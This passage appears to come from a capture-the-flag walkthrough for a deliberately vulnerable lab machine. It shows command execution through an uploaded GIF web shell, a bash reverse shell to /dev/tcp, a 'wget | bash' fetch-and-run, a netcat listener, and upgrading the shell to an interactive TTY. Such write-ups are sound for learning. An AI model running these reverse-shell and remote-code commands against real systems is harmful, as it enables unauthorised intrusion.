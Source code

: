 ![](/assets/images/imf/screenshot-16.png)

It is now possible tu run system commands.

```console
root@kali:~# curl --data "cmd=id" http://172.16.178.128/imfadministrator/uploads/0e0767e8327b.gif
GIF87a
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I used a bash reverse shell.

```console
root@kali:~# cat rev-shell.sh
bash -i >& /dev/tcp/172.16.178.1/443 0>&1
```

Set up a web server with python on port 80.

```console
root@kali:~# python3 -m http.server 80
```

Start a netcat listener on port 443, and run the following command.

```console
root@kali:~# curl --data "cmd=wget 172.16.178.1/rev-shell.sh -O- | bash" \
> "http://172.16.178.128/imfadministrator/uploads/0e0767e8327b.gif"
```

To upgrade a dumb shell to a full interactive shell, use the steps below:

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.128] 34824
bash: cannot set terminal process group (1290): Inappropriate ioctl for device
bash: no job control in this shell
www-data@imf:/var/www/html/imfadministrator/uploads$ script -qc /bin/bash /dev/null
<imfadministrator/uploads$ script -qc /bin/bash /dev/null
www-data@imf:/var/www/html/imfadministrator/uploads$ ^Z
zsh: suspended  nc -vlnp 443

root@kali:~# stty raw -echo; fg
[1]  + continued  nc -vlnp 443

www-data@imf:/var/www/html/imfadministrator/uploads$ export TERM=screen
www-data@imf:/var/www/html/imfadministrator/uploads$ export SHELL=/bin/bash
```
